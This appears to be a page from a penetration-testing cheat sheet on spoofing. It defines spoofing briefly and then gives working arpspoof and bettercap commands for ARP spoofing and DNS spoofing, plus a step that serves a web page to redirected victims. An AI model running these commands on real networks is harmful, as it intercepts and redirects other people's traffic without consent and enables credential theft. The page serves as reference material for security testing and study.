 # Spoofing

## Spoofing

* Spoofing is the act of disguising a communication or identity so that it appears to be associated with a trusted, authorized source. Spoofing attacks can take many forms, from the common email spoofing attacks that are deployed in phishing campaigns to caller ID spoofing attacks that are often used to commit fraud.

### ARP Spoofing

ARP Spoofing consist on sending gratuitous **ARP Responses** to indicate that the IP of a machine has the MAC of our device. Then, **the victim will change the ARP table** and will contact our machine every time it wants to contact the IP spoofed.

<pre class="language-bash"><code class="lang-bash"><strong># arpspoof
</strong><strong>echo 1 > /proc/sys/net/ipv4/ip_forward
</strong>arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1

# Bettercap
arp.spoof on
set arp.spoof.targets &#x3C;IP> #Specific targets to ARP spoof (default=&#x3C;entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
set arp.spoof.internal true #If true, local connections among computers of the network will be spoofed, otherwise only connections going to and coming from the Internet (default=false)
</code></pre>

### DNS Spoofing

```bash
# Bettercap
set arp.spoof.fullduplex true
set arp.spoof.targets <IP's>
set dns.spoof.address <local IP>
set dns.spoof.all true
set dns.spoof.domains *.spoofeddomain.com, *.anotherdomain.com
arp.spoof on
net.sniff on
dns.spoof on
```

* Now set your web page with apache2 or whatever you want.

```
service apache2 start
echo "Hello there :}" > /var/www/html/index.html
```
